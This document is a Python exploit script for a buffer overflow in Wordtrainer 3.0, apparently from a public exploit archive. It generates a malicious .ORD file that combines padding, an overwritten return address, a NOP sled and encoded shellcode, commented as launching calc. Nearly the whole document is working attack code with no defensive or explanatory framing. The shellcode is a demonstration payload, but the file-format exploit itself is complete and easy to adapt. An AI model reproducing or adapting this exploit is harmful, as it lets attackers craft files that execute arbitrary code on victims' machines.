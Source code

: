 EXP
---

    #!/usr/bin/python
    #
    #[+]Exploit Title: Wordtrainer V3.0 .ORD File Buffer Overflow Vulnerability
    #[+]Date: 12\04\2011
    #[+]Author: C4SS!0 G0M3S
    #[+]Software Link: http://www.wordtrainer.net/software/files/wt307shw_exe/wt307shw.exe
    #[+]Version: 3.0
    #[+]Tested On: WIN-XP SP3 Brazilian Portuguese
    #[+]CVE: N/A
    #
    #


    from struct import pack
    from time import sleep

    print """
            Exploit Buffer Overflow Wordtrainer 3.0
            Created BY C4SS!0 G0M3S
            E-mail Louredo_@hotmail.com
            Site www.exploit-br.org

    """
    buf = ("\x41" * 868)
    buf += pack('<L',0x00430363)
    buf += ("\x90" * 10)
    buf += ("\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"
    "\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"
    "\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"
    "\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"
    "\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"
    "\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" #Shellcode WinExec("calc",0)
    "\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"
    "\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"
    "\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"
    "\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"
    "\x7f\xe8\x7b\xca")
    buf += "\x41" * (2000-len(buf))
    head = ("\x47\x4C\x4F\x53\x4F\x52\x0D\x0A\x31\x0D\x0A\x0D\x0A\x20\x0D\x0A")

    head += (buf+"\r\n")

    print "[+]Creating the Exploit File..."
    sleep(1)
    FILE = open("Exploit.ord","wb")
    FILE.write(head)
    FILE.close()
    print "[+]File Created With Success\n"
    sleep(2)